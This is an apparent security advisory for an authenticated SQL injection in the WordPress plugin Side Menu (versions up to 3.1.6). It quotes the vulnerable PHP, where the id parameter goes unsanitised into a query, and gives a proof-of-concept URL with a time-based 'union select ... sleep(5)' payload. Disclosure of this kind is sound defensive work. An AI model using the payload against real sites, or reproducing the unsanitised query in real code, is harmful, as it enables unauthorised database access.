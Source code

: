 # Side Menu <= 3.1.6 - Authenticated SQL Injection

## Description
    The menu update functionality of the plugin, available to Administrator users takes the id GET parameter and uses it into an SQL statement without proper sanitisation, validation or escaping, therefore leading to a SQL Injection issue.
    
## Affects Plugins
    Side Menu <= 3.1.6 (the latest version at this time)
    
## Author
    pang0lin@webray.com.cn inc
    
## Detail
    The issue is occured at file side-menu-lite/admin/partials/include-data.php. When the parameter $act equals to 'duplicate', the parameter id is derectly used by mysql select sql. 
```
if ( $act == "update" ) {
	$rec_id = absint( $_REQUEST["id"] );
	$result = $wpdb->get_row( "SELECT * FROM $data WHERE id=$rec_id" );
	if ( $result ) {
		$id         = $result->id;
		$title      = $result->title;
		$param      = unserialize( $result->param );
		$tool_id    = $id;
		$add_action = 2;
		$btn        = esc_attr__( 'Update', $this->plugin['text'] );
	}
} elseif ( $act == "duplicate" ) {
	$rec_id = $_REQUEST["id"];
	$result = $wpdb->get_row( "SELECT * FROM $data WHERE id=$rec_id" );
	if ( $result ) {
		$id    = "";
		$title = "";
		$param = unserialize( $result->param );
		$last  = $wpdb->get_col( "SELECT id FROM $data" );;
		$tool_id    = max( $last ) + 1;
		$add_action = 1;
		$btn        = esc_attr__( 'Save', $this->plugin['text'] );
	}
} else {
	$id         = "";
	$title      = "";
	$last  = $wpdb->get_col( "SELECT id FROM $data" );
	$tool_id    = !empty($last) ?  max( $last ) + 1 : 1;
	$param      = '';
	$add_action = 1;
	$btn        = esc_attr__( 'Save', $this->plugin['text'] );
}

```

## Proof of Concept
http://192.168.65.26/wp/wp-admin/admin.php?page=side-menu-lite&tab=add-new&act=duplicate&id=0 union select 1,2,sleep(5)
Visit this page, it will sleep more than 5 seconds.

![blockchain](https://github.com/pang0lin/CVEproject/blob/main/imgs/wordpress_side-menu_sqli.png "Wordpress plugin side-menu sqli")
